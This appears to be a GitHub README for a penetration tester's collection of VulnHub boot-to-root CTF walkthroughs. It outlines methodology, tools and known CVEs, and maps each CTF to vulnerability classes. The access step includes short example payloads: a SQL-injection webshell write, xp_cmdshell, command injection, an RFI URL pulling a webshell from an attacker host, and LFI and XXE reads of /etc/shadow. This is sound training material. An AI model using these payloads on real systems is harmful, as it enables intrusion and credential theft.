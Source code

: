 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for fun. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


## Classic pentest methodology to do a Boot2root CTF...

### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
```
*Useful tools: [Nmap](https://nmap.org/) (network port scanner and (NSE) scripts), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing tool), [Nikto](https://www.kali.org/tools/nikto/) (Web vulnerability scanner), [Dirb](https://www.kali.org/tools/dirb/) & [Gobuster](https://github.com/OJ/gobuster)  (URL bruteforcers), [Kali various tools](https://www.kali.org/tools/), various scripts (source:Github/your owns).*


### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
```
*Useful tools: various scripts, webshells, and reverse shells (source:Github/your owns), [Kali various tools](https://www.kali.org/tools/), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing), [Sqlmap](https://github.com/sqlmapproject/sqlmap) (automatic SQL injection & DB takeover tool), [kadimus](https://github.com/P0cL4bs/kadimus) (LFI exploit tool), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Impacket framework](https://github.com/SecureAuthCorp/impacket) & [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Windows environment pentesting tools), [Hydra](https://www.kali.org/tools/hydra/) / [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) / [ncrack](https://nmap.org/ncrack/) (password bruteforce tools),  [DBvis/DbVisualizer](https://www.dbvis.com/download/) (universal database tool).*

### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
```
*Useful tools: various scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) (Linux enumeration scripts), [LinPEAS & WinPEAS](https://github.com/carlospolop/PEASS-ng) (Linux & Windows enumeration scripts), [Linux Exploit suggester](https://github.com/mzet-/linux-exploit-suggester) / [Linux Exploit suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (scripts to assess Linux kernel security hardening and exposure on publicly known exploits), [PowerUp PowerShell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) & [SharpUP](https://github.com/GhostPack/SharpUp) (Windows privilege escalation tools), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), ...*

### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg client/webshell)
5. Pivoting with SOCAT / RDP / VNC...
6. ...
```

### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | - | X | - | 
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | Pivoting technique |
